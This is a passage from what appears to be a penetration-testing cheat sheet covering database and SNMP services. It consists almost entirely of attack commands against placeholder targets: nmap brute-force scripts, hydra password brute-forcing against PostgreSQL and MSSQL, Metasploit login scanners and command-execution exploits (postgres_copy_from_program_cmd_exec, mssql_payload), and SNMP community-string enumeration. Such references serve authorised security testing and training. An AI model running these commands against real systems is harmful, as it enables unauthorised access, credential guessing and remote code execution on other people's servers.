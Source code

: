 ```ruby
# Metasploit
use auxiliary/scanner/mysql/mysql_login
use auxiliary/scanner/mysql/mysql_version
use auxiliary/admin/mysql/mysql_enum
use auxiliary/admin/mysql/mysql_sql
```

#### PostgreSQL (5432)
```bash
# Enumeration
nmap --script pgsql-brute -p 5432 <target>

# Connection
psql -h <target> -U postgres -d postgres

# Brute force
hydra -L users.txt -P passwords.txt postgres://<target>
```

```ruby
# Metasploit
use auxiliary/scanner/postgres/postgres_login
use auxiliary/scanner/postgres/postgres_version
use exploit/linux/postgres/postgres_copy_from_program_cmd_exec
```

#### MSSQL (1433, 1434)
```bash
# Enumeration
nmap --script ms-sql-info,ms-sql-empty-password -p 1433 <target>

# Connection
sqlcmd -S <target> -U sa -P password

# Brute force
hydra -L users.txt -P passwords.txt mssql://<target>
```

```ruby
# Metasploit
use auxiliary/scanner/mssql/mssql_login
use auxiliary/admin/mssql/mssql_enum
use auxiliary/admin/mssql/mssql_exec
use exploit/windows/mssql/mssql_payload
```

### 🔊 SNMP (161/162 UDP)

#### Enumeration
```bash
# Community string enumeration
onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt <target>

# SNMP walking
snmpwalk -v2c -c public <target>
snmpwalk -v2c -c public <target> 1.3.6.1.2.1.1.5.0  # System name
snmpwalk -v2c -c public <target> 1.3.6.1.2.1.25.1.6.0  # Running processes

# Advanced enumeration
snmp-check <target>
```
